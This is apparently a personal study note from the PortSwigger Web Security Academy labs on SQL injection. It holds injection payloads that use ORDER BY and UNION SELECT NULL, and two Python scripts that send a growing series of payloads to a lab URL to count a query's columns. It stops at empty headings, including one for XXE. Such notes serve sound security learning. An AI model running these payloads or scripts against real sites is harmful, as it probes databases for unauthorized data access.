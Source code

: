 # SQL Injection:

## 1. Determining number of columns return from a query:
### Using ORDER BY statement:
```sql
' ORDER BY 1--
# We can keep on increasing the number i.e. currently 1 until the server throws an error.
```
-> A simple python fuzzer that would keep on increasing the number until the response gets in the range of 500+:
```python
#!/usr/bin/env python3

import requests

main_url = "https://acfb1f101ebee2aa80ce2a3c002100e2.web-security-academy.net/filter?category="

NUM = 1
while True:
	url = main_url
	payload = f"' ORDER BY {NUM} --"
	url += payload
	print(f"[*] Fuzzing with payload : {payload}", end = '')
	r = requests.get(url)
	print(f" : -> {r.status_code}")
	if r.status_code >= 500:
		break
	NUM += 1
	
print(f"\n[+] Payload : ' ORDER BY {NUM - 1} --")
print(f"[+] Number of columns returned : {NUM - 1}")
```

### Using null queries:
```sql
' UNION SELECT NULL --
# As long as some error occurs or when an error occurs, that would determine the number of tables existing in the database
```
-> A simple python fuzzer that would keep on fuzzing until the server gives a response besides 500:

```python
#!/usr/bin/env python3

import requests

main_url = "https://acfb1f101ebee2aa80ce2a3c002100e2.web-security-academy.net/filter?category="

NULL = 'NULL'
while True:
	url = main_url
	payload = f"' UNION SELECT {NULL} --"
	url += payload
	print(f"[*] Fuzzing with payload : {payload}", end = '')
	r = requests.get(url)
	print(f" : -> {r.status_code}")
	if r.status_code != 500:
		break
	NULL += ',NULL'

print(f"\n[+] Payload : {payload}\n[+] Number of columns returned: {len(payload.split(','))}")
```
-> Output from Portswigger UNION lab:
![[Pasted image 20210818152140.png]]

#### Note:
-   The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.

## 2.


# XML XXE:
